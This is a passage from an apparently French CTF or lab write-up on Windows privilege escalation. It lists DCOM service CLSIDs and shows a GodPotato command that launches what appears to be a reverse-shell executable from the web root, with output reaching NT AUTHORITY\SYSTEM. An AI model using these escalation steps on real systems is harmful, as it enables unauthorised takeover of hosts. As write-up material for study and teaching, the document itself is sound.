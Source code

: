```console
AppId        : {88283d7c-46f4-47d5-8fc2-db0b5cf0cb54}
LocalService : AppReadiness
CLSID        : {c980e4c2-c178-4572-935d-a8a429884806}


AppId        : {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
LocalService : BITS
CLSID        : {03ca98d6-ff5d-49b8-abc6-03dd84127020}


AppId        : {ab7c873b-eb14-49a6-be60-a602f80e6d22}
LocalService : defragsvc
CLSID        : {d20a3293-3341-4ae8-9aaf-8e397cb63c34}


AppId        : {42CBFAA7-A4A7-47BB-B422-BD10E9D02700}
LocalService : DiagnosticsHub.StandardCollector.Service
CLSID        : {42CBFAA7-A4A7-47BB-B422-BD10E9D02700}

--- snip ---

AppId        : {2568BFC5-CDBE-4585-B8AE-C403A2A5B84A}
LocalService : wisvc
CLSID        : {6150FC78-21A1-46A4-BF3F-897090C6D79D}


AppId        : {653C5148-4DCE-4905-9CFD-1B23662D3D9E}
LocalService : wuauserv
CLSID        : {b8fc52f5-cb03-4e10-8bcb-e3ec794c54a5}
```

Je les ai tous testé sans succès via un peu de Python. J'ai ensuite essayé PrintSpoofer mais il échouait aussi.

Finalement, j'ai utilisé [GodPotato](https://github.com/BeichenDream/GodPotato), aussi mentionné sur HackTricks et ça a marché :

```console
C:\Logs>gp.exe -cmd c:\inetpub\wwwroot\rev6666.exe
[*] CombaseModule: 0x140709355061248
[*] DispatchTable: 0x140709357378800
[*] UseProtseqFunction: 0x140709356754080
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\984c819f-6db6-420b-a76f-0e7e9652aa4a\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00004c02-07e8-ffff-8f00-710a814d0824
[*] DCOM obj OXID: 0x54e2dab36a2e274a
[*] DCOM obj OID: 0x4d1a46a53c8e455e
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\Servicio de red
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 948 Token:0x860  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 108
```